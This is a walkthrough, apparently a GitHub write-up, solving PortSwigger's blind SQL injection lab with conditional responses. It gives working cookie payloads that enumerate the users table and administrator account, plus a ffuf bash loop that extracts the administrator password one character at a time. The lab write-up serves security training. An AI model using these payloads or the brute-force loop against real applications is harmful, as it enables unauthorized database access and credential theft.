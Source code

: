https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

### Confirming SQLI
So geting a deep understanding of the lab (in this case is just read the description), we know that the cookie is being used in the SQL database, so we will do the injection there.
After do more than one request a 'Welcome back' should be displayed, to confirm the SQL injection lets do a simple boolean condition:
```Cookie
TrackingId=xyz' AND '1'='2
```
If this didn't display the welcome we confirm the SQLI vulnerability, because the condition is evaluated as false so the cookie isn't valid, and as the 'Welcome back' paragraph depends on this, simply it isn't displayed.

### Confirming USERS table
Using this payload:
```cookie
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

`(SELECT 'a' FROM users LIMIT 1)` this is **fetch a Single Row** (`LIMIT 1`), and it's selecting the letter 'a' from the users table, so if there's any table which start with a this will be truly, so `(SELECT 'a' FROM users LIMIT 1)='a'` would be truth it there's any row on the **users table**.

So here we are using the AND operator, this means the query returns true if both conditions (the cookie which is truly) and the sub-query are truly, then the 'welcome' will be displayed.
The query resulting would look like:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT 'a' FROM users LIMIT 1)='a'
```

### Confirming the existing of administrator (row)
Now instead of fetch a sengle row let's select the row where the **username column** it's equal to admin:
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

**Resulting query**:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a'
```
As the query is truly we’ll see “Welcome back,” indicating `administrator` is a valid user.

### Determining the password of administrator row
Now by using the subquery `(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)` we are selcting the row from users table where it's a username column equals to "administrator" string, which we confirm previously it's true, and we are checking whether the length of the string from the password column (all in the same row) it's bigger than one.
The **payload** is 
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
and this is selecting the a letter of administrator, this sub-query will return the constant value `'a'` only if a row exists in the `users` table where `username = 'administrator'`. So if username administrator do not exists then the request will be a false and "welcome" will be never displayed.
**Resulting query**:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'
```
If it's equal or less nothin be displayed.

### Extract the password
```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
By using `SUBSTRING(password,1,1)` we are extracting the single character from the password column the argument 'password' specifies the column to extract the sub-string from, the 1 is the starting position, and the second 1 specifies the length, or number of characters to extract (1 = only one character).
So we are selecting a character from the users table where the username is equal to administrator, and that will return true if the character we are matching the correct letter.
**Resulting query**:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```
### Solution
To solve the lab do in the terminal (password.txt should be empty):
```sh
for (( i=1; i<=20; i++ )); do
ffuf -u "https://YOUR_LAB_ID.web-security-academy.net/filter?category=Corporate+gifts" -w /usr/share/seclists/Fuzzing/alphanum-case.txt -v  -H "Cookie: TrackingId=YOUR_COOKIE' AND (SELECT SUBSTRING(password,$i,1) FROM users WHERE username='administrator')='FUZZ; session=YOUR_COOKIE" -ac -s >>./password.txt
done
cat password.txt | tr -d "\n" | xclip -selection clipboard
```
and paste the password

